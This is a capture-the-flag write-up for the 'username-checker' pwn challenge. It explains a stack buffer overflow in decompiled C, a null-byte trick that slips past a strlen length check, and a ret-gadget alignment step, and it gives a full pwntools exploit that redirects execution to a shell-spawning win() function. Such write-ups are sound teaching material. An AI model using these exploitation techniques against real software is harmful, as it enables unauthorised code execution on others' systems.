





# pwn/username-checker

by WoodMan

## Summary

> Having trouble finding the perfect osu! username?
> Check whether your usernames are valid using `username-checker`!

## Challenge Solving

First, perform reverse engineering to identify the vulnerable location and the exploitation method.

In `main` you can see a call to a function named `check_username()`.





Next, examine the `check_username()` function to locate the vulnerability.

```c
void check_username(void) {
  char local_48[44];  // Buffer only 44 bytes
  
  printf("please enter a username you want to check: ");
  fgets(local_48, 0x80, stdin);  // But read 128 bytes
  
  sVar2 = strcspn(local_48, "\n");
  local_48[sVar2] = '\0';
  
  sVar2 = strlen(local_48);
  if (sVar2 < 0x10) {  // Check length < 16
    // ... Character check ...
    if (strcmp(local_48, "super_secret_username") == 0) {
      win();  // Point!
    }
  } else {
    puts("username is too long");
  }
}

void win(void) {
  puts("how did you get here?");
  system("/bin/sh");  // Target
}
```

> Buffer size: 44 bytes.
> `fgets` can read: 128 bytes (0x80).
> Difference: 84 bytes can be overwritten!

This is a classic buffer overflow.

```c
fgets(local_48,0x80,stdin);
sVar2 = strcspn(local_48,"\n");
local_48[sVar2] = '\0';
sVar2 = strlen(local_48);
if (sVar2 < 0x10) { // Input need < 16
```

Next, look at the validation: this code checks the input length, so you can't supply an extremely long string directly — but we can use a null byte truncation.

`strlen` stops counting when it encounters `\x00`, so if we place `\x00` at the 16th position, `strlen` will only see the first 15 characters, while `fgets` will already have written the remaining data into the stack.

Next we can find the offset — determine how many bytes of input will trigger the crash and overwrite the return address.

Here I found that 72 characters are enough to overwrite the return address.



The memory address of `win()` can be obtained using `gdb`.



Why do we need a `ret_gadget`?

The x86-64 System V ABI requires `rsp` to be 16-byte aligned *before* a `call` instruction executes.

You can obtain a `ret_gadget` using the following command:

&#x20;   `ROPgadget --binary checker | grep ": ret$"`



So our payload should be:

`15 chars + \x00 + 56 chars + ret_gadget + win() address`

Full Exploit:

```python
from pwn import *


# r = process('./checker')
r = remote('username-checker.challs.sekai.team', 1337)

win_addr = 0x401236
ret_gadget = 0x40101a

payload = b'a' * 15
payload += b'\x00'
payload += b'B' * (72 - 16)
payload += p64(ret_gadget)
payload += p64(win_addr)

r.sendlineafter(b'check: ', payload)
r.interactive()
```

## Flag

`osu{thats_not_a_val1d_username_:(}`

